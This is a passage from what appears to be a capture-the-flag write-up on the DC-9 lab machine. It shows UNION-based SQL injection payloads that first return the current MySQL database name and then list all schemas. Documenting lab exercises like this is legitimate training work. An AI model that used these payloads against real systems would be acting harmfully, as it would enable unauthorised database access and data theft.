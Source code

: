 We can confirm that the DBMS that the target machine's running is `MySQL`.

**Then, we can list the current database name:**
```sql
' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,database()-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/DC-9/images/a12.png)

- Current database name:`Staff`

**Next, we can list all database names:**
```sql
' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,concat(schema_name) FROM information_schema.schemata-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/DC-9/images/a11.png)
